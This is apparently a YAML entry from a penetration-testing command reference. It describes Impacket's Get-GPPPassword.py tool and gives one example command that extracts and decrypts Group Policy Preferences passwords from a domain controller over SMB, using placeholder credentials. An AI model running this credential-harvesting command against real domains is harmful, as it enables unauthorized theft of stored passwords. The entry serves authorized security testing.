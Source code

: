 ```yaml
---
description: |
  Python script to automatically extract and decrypt Group Policy Preferences (GPP) passwords using streams for carving files instead of mounting shares

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1
items:
  - Password
  - Username
  - Hash
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py
  - https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/
---
```

